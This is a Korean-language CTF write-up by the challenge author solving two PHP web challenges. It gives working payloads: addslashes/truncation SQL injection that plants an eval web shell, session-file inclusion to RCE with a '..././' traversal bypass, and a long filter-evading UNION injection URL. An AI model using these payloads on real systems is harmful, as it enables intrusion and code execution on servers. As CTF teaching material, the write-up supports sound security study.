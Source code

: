 # H3X0R CTF 2018 - Web Write-up

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

goodaegi board는 sql injection과 lfi, php 세션을 이용한 rce문제다.  
의도한 풀이는 sql injection으로 php 코드를 username에 넣어서 가입한 뒤  
가입한 계정으로 로그인해 lfi로 해당 계정의 세션을 포함시켜 rce로 flag.php를 읽어오는걸 의도했다.
  
자세한 풀이는 아래를 참고하자.  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join function에서 sql injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 sql injection방지를 위해 addslashes를 거치고
그 다음 줄에서 sql truncate attack을 방지한다며 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

공격이 가능한 이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 query는 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 php 코드를 넣어주고 가입하면 된다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP SESSION to RCE

session to rce의 간단한 예시를 들어보면  
php에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 php 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에  
php 코드가 포함된 세션을 inclusion한다면 rce가 가능하다.  
  
* 세션 파일명 : ``sess_[random_string]`` 여기서 ``[random_string]``은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0;`` => ``sess_fqs54b8ies3uhuhlttlb3lq3d0``
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 위에서 설명한 sql injection을 활용해서 넣어줘야 한다.

--------------------------------------------
### LFI (session inclusion)

``?p=home.html`` $_GET['p']에서 lfi가 발생한다.  
``index.php``를 확인해보면 $_GET['p']는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // 안봐도 됨
	$page = str_replace(chr(0), '', $page); // 안봐도 됨
	$page = str_replace('../', '', $page); // '../' 지우기
	if(substr($page, -4, 4) == 'html') { // 확장자가 html인지 체크
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음 분기문 ``substr($page, -4, 4) == 'html'`` 이 부분을 우회하는 방법은 그냥 세션 값을 바꾸면 된다.
세션 값은 사용자가 임의로 바꿀 수 있기 때문에 세션 값 맨 뒤에 ``html``를 추가하면 생성되는 세션 파일명도 바뀌기 때문이다.
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  => ``sess_fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
rce에 성공했다면 ``flag.php``를 읽으면 flag를 얻을 수 있다. 
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html&x=echo%20file_get_contents('flag.php');``

## sqlgame revenge (480pts) - solver (2)

sql injection challenge다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```

